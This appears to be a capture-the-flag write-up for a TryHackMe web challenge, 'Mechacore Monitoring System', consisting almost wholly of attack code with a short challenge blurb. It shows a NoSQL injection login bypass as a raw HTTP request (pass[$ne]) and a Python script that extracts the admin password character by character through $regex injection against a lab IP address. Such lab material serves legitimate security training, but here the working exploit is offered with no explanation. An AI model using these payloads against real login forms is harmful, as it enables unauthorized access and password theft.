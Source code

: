 ```yaml
---
title: "Mechacore Monitoring System"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flags: 
 - THM{REDACTED}
 - THM{REDACTED}
---
```

> Mechacore again? Why do they keep buying from this brand? This looks like a monitoring system for one of Virelia's plants. We've bypassed their logins before, so let's do it once again. Maybe we can even try dumping the database for passwords this time.

---

## App flag

```http
POST /login.php HTTP/1.1
Host: 10.10.191.255
Content-Type: application/x-www-form-urlencoded

user=admin&pass[$ne]=admin
```

## Admin flag

```py
import requests
import string

URL = 'http://10.10.191.255/login.php'
charset = '{_}' + string.ascii_letters + string.digits + string.punctuation
found = 'THM{'
session = requests.Session()

while True:
    for ch in charset:
        trial = found + ch
        data = {
            'user': 'admin',
            'pass[$regex]': f'^{trial}'
        }
        r = session.post(URL, data=data, allow_redirects=False)

        if '/?err=1' not in r.headers.get('Location', ''):
            found += ch
            print(f'Found so far: {found}')
            break
    else:
        print(f'Final password: {found}')
        break
```
